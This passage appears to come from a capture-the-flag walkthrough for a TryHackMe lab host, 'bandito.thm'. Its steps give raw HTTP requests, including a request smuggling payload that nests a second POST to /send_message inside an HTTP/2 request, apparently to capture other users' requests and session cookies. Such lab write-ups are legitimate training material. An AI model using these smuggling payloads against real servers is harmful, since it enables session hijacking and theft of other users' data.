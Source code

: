 
- wait for 503 Service Unavailable

## Step4

- send request getmessages again

```bash
GET /getMessages HTTP/2
Host: bandito.thm:80
Cookie: session=eyJ1c2VybmFtZSI6ImhBY2tMSUVOIn0.aDLA8A.ikjW6tDsmMlQPVTPRZKzNcy48g0
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

- You need to see `Null` in response.

## Step5

```bash
POST / HTTP/2
Host: bandito.thm:80
Cookie: session=eyJ1c2VybmFtZSI6ImhBY2tMSUVOIn0.aDLA8A.ikjW6tDsmMlQPVTPRZKzNcy48g0
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Content-Length: 0

POST /send_message HTTP/1.1
Host: bandito.thm:80
Cookie: session=eyJ1c2VybmFtZSI6ImhBY2tMSUVOIn0.aDLA8A.ikjW6tDsmMlQPVTPRZKzNcy48g0
Content-Type: application/x-www-form-urlencoded
Content-Length: 900

data =
```

- send this request agin!
